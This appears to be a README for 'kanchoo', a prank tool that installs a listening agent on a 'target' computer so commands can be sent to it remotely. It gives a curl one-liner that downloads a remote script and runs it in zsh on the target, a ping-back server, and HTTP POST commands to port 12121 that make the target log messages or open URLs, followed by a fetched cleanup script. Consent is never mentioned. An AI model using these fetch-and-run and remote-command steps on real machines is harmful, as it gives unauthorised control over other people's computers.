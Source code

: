 # kanchoo
カンチョー

## how to

#### 1. install in the target
```sh
ip=127.0.0.1 /bin/zsh <(curl -fsSL https://raw.githubusercontent.com/davidegaspar/kanchoo/master/install)
```

#### 2. start ping server and wait for target to ping back
```sh
./ping.js
```

#### 3. once you have the target details run a story or a single action
```sh
./story <storyName>.json <ip>
```
```sh
curl -H "Content-Type: application/json" -X POST -d '{"consoleLog":"hello world!"}' http://${ip}:12121
curl -H "Content-Type: application/json" -X POST -d '{"openUrl":"example.com"}' http://${ip}:12121
```

#### 4. cleanup after you had some fun
```sh
/bin/zsh <(curl -fsSL https://raw.githubusercontent.com/davidegaspar/kanchoo/master/cleanup)
```

## dependencies
- nodejs
- zsh

